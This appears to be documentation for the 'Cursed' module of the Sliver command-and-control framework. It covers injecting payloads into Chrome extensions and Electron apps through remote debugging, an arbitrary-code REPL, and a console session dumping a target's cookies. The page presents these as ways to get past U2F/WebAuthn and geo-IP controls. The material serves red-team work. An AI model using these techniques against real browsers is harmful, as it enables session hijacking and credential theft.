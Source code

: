 Cursed is a Chrome/Chromium/Edge/Electron post-exploitation tool kit introduced in Sliver v1.5.25, which integrates with [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) (originally [Sliver Overlord](https://github.com/gsmith257-cyber/better-sliver-package-overlord)). It can automatically find existing Chrome Extensions with the required permissions for [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) and remotely inject it onto the target system, or you can start an interactive REPL to inject arbitrary code into any Chrome/Chromium/Edge/Electron context.

Since web requests and other activity originate from the target machine/browser instance, Cursed Chrome and the Cursed tool kit are excellent options for bypassing U2F/Webauthn, hardware attestation, and geo-IP restrictions in web applications.

## Cursed Chrome

The `cursed chrome` command can be used to restart a remote system's Chrome browser with remote debugging enabled. If no payload is specified using `--payload` the command will simply restart Chrome with remote debugging enabled, you can then use `cursed console` to interact with any debug target.

If a payload is specified, the command will restart Chrome with remote debugging, enumerate installed browser extensions, determine if any extension has the required permissions for [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome), and inject the payload into the extension's execution context.

So a typical workflow looks like:

1. Setup [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome)
2. Pop Sliver session, or go interactive from a beacon
3. `cursed chrome --payload background.js`
4. Upstream browser to CursedChrome proxy
5. Enjoy!

## Cursed Edge

Works identically to `cursed chrome` but the UI displays "Edge" instead of "Chrome" much like Edge itself.

## Cursed Electron

The `cursed electron` command can be used to restart an Electron application with remote debugging enabled, you can subsequently use `cursed console` to interact with any debug target. Note that some Electron applications disable the remote debugging functionality, which will prevent this feature from working.

## Cursed Console

The `cursed console` command can be used to start an interactive REPL with any cursed process. You will need to start a cursed process using `cursed chrome`, `cursed edge`, or `cursed electron` before using `cursed console`. You can list cursed processes using the `cursed` command. ![cursed](/images/cursed-1.png)

## Cursed Cookies

Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:

```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies

? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

```
